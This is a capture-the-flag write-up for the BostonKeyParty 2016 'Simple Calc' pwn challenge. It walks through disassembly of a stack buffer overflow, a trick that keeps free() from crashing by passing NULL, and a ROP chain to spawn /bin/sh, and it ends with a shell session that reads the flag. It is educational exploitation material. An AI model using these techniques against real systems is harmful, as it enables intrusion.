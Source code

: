 
## BostonKeyParty CTF 2016 - Simple Calc (Pwn 5pt)
##### 04/03 - 06/03/2015 (48hr)
___
### Description: 
what a nice little calculator!

simplecalc.bostonkey.party 5400
___
### Solution

This was a pretty easy challenge. The binary was a simple calculator (+, -, *, /). At the beginning,
program asks for the expected number of calculations:
```assembly
.text:00000000004013E9         lea     rax, [rbp+ncalc_14]
.text:00000000004013ED         mov     rsi, rax
.text:00000000004013F0         mov     edi, offset aD  ; "%d"
.text:00000000004013F5         mov     eax, 0
.text:00000000004013FA         call    __isoc99_scanf
.text:00000000004013FF         mov     eax, 0
.text:0000000000401404         call    handle_newline
.text:0000000000401409         mov     eax, [rbp+ncalc_14]
.text:000000000040140C         cmp     eax, 0FFh
.text:0000000000401411         jg      short WRONG_NCALC_40141B
.text:0000000000401413         mov     eax, [rbp+ncalc_14]
.text:0000000000401416         cmp     eax, 3
.text:0000000000401419         jg      short NCALC_OK_40142F
.text:000000000040141B
.text:000000000040141B WRONG_NCALC_40141B:             ; CODE XREF: main+8Ej
.text:000000000040141B         mov     edi, offset aInvalidNumber_ ; "Invalid number."
.text:0000000000401420         call    puts
.text:0000000000401425         mov     eax, 0
.text:000000000040142A         jmp     locret_401588
.text:000000000040142F ; ---------------------------------------------------------------------------
.text:000000000040142F
.text:000000000040142F NCALC_OK_40142F:                ; CODE XREF: main+96j
.text:000000000040142F         mov     eax, [rbp+ncalc_14]
.text:0000000000401432         shl     eax, 2          ; allocate 4 bytes for each calculation
.text:0000000000401435         cdqe
.text:0000000000401437         mov     rdi, rax
.text:000000000040143A         call    malloc
```
Then we allocate some memory big enough to hold the results (4 byte per results). We're allowed to
make from 3 to 255 calculations.

The vulnerability, was fairly easy to find and exploit:
```assembly
.text:0000000000401529         cmp     eax, 5
.text:000000000040152C         jnz     short INVALID_OPT_40155D
.text:000000000040152E         mov     eax, [rbp+ncalc_14]
.text:0000000000401531         shl     eax, 2
.text:0000000000401534         movsxd  rdx, eax
.text:0000000000401537         mov     rcx, [rbp+ptr_10]
.text:000000000040153B         lea     rax, [rbp+vuln_buf_40]
.text:000000000040153F         mov     rsi, rcx
.text:0000000000401542         mov     rdi, rax
.text:0000000000401545         call    memcpy          ; overflow: vuln_buf is small
.text:000000000040154A         mov     rax, [rbp+ptr_10]
.text:000000000040154E         mov     rdi, rax
.text:0000000000401551         call    free            ; pointer must be NULL to avoid crash ;)
.text:0000000000401556         mov     eax, 0
.text:000000000040155B         jmp     short locret_401588
```
Upon exit, we copy the results to a very small buffer:
```assembly
	.text:0000000000401383 vuln_buf_40     = byte ptr -40h
	.text:0000000000401383 option_18       = dword ptr -18h
	.text:0000000000401383 ncalc_14        = dword ptr -14h
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
Thus it's very easy to overflow the buffer and overwrite return address and get control of rip.
We have total control of the contents of the buffer, as they're the results of the caclulations,
which we control their arguments.

However there's a problem: Except the rip, we also overwrite rbp+ptr_10, which is the pointer
that holds the results in the heap. If this value is not a valid entry address of a heap buffer,
free() will crash. The first idea is to set it to NULL, so if there's a check for NULL pointer 
as input at the beginning of free(), we'll immediately return. Fortunately this is true:
```assembly
.text:00000000004156D0         public free ; weak
.text:00000000004156D0 free            proc near               ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                         ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0         mov     rax, cs:__free_hook
.text:00000000004156D7         test    rax, rax
.text:00000000004156DA         jnz     loc_41579A
.text:00000000004156E0         test    rdi, rdi
.text:00000000004156E3         jz      locret_415798
```
As you can see, rdi (1st argument), is checked if it's 0 (NULL) and if so, free() returns. Thus,
we can overwrite ptr with zeros and then directly overwrite rip.

However, for any type of calculation, input numbers must be >0x27 (unsigned):
```assembly
.text:00000000004010E0         mov     eax, cs:add_1_6C4A80
.text:00000000004010E6         cmp     eax, 27h        ; number must be >= 50
.text:00000000004010E9         jbe     short TOO_SMALL_4010F6
.text:00000000004010EB         mov     eax, cs:add_2_6C4A84
.text:00000000004010F1         cmp     eax, 27h
.text:00000000004010F4         ja      short NUMS_OK_40110A 
```
In order to have a result of 0, we have to give as input num1=X and num2=X and do a subtraction. 
We need this because addresses are 8 bytes long and the 4-MSB must be NULL. Because DEP is
enabled, we need to ROP. Fortunately for us, binary is statically linked, so there are many
gadgets available. A /bin/sh shell is enough, so we can find our gadgets using ROPgadget.py.

The exploit is simple: fill buffer with zeros, overwrite rip with the address of the 1st gadgets,
add fill the rest of the stack with the ROP exploit. See the python code, for the complete attack.
The flag is **BKPCTF{what_is_2015_minus_7547}**.

```
root@xrysa:~/ctf/bostonkeyparty# ./simple_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit
	.=> ls -la
		total 1188
		drwxr-xr-x 2 calc calc   4096 Mar  4 05:23 .
		drwxr-xr-x 3 root root   4096 Mar  4 05:04 ..
		-rw-r--r-- 1 calc calc    220 Mar  4 05:04 .bash_logout
		-rw-r--r-- 1 calc calc   3637 Mar  4 05:04 .bashrc
		-rw-r--r-- 1 calc calc    675 Mar  4 05:04 .profile
		-rw-r--r-- 1 root root     32 Mar  4 05:23 key
		-rwxr-xr-x 1 root root     80 Mar  4 05:14 run.sh
		-rwxrwxr-x 1 calc calc 882266 Mar  4 05:04 simpleCalc
		-rw-r--r-- 1 root root 302348 Feb  1  2014 socat_1.7.2.3-1_amd64.deb
	whoami
		nobody
	cat key
		BKPCTF{what_is_2015_minus_7547}
	exit
	*** Connection closed by remote host ***
```
___
